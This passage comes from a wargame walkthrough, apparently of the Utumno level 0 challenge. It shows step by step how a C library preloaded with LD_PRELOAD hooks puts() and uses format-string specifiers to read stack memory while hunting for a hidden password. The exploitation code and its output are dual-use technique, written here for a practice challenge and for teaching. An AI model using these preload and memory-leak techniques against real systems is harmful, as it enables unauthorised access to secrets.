 ```c
#include <stdio.h>
// gcc preload.c -o preload.so -fPIC -shared -ldl -m32
int puts ( const char * str ) {
	printf("Hello from 'puts' !");

	return 0;	
}
```

Then, we test the code :

```bash
utumno0@utumno:/tmp/axc$ LD_PRELOAD="./preload.so" /utumno/utumno0
Hello from 'puts' !
```

So, it seems that the program is using *puts()* to print the message. Now, we could use *printf()* to read data on the **stack** by employing the same method used by the [Format String](https://axcheron.github.io/exploit-101-format-strings/) vulnerability.

```c
#include <stdio.h>

int puts ( const char * str ) {
	printf("%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x\n");

	return 0;
}
```

The *%08x* string is interpreted by the *printf()* as specifiers resulting in reading data from the stack because there are no variables specified. So, for each **%08x**, *printf()* will fetch a number from the stack, treat this number as an address, and print out the memory contents pointed by this address as a string. Here is the result :

```bash
utumno0@utumno:/tmp/axc$ LD_PRELOAD="./preload.so" /utumno/utumno0
f7fee710.ffffd6e4.f7fcf52c.f7fc3dbc.00000000.ffffd6b8.08048402.080484a5.08048490.00000000
```

So, why did we do that ? Well, as it's a *wargame*, the password is probably somewhere in memory, but we can't **read** this executable so, we need to be creative. Here, I see 3 interesting addresses :

- `08048402`
- `080484a5`
- `08048490`

These addresses are not *NULL* or somewhere in the *Kernel address space*. They start with `0x0804` which means that the process can read, write and execute things on these memory areas. So, if we are lucky, maybe one of them is pointing on an interesting string. Let's check that assumption :

```c
#include <stdio.h>

int puts ( const char * str ) {
	printf("%s\n", 0x08048402);
	printf("%s\n", 0x080484a5);
	printf("%s\n", 0x08048490);

	return 0;
}
```
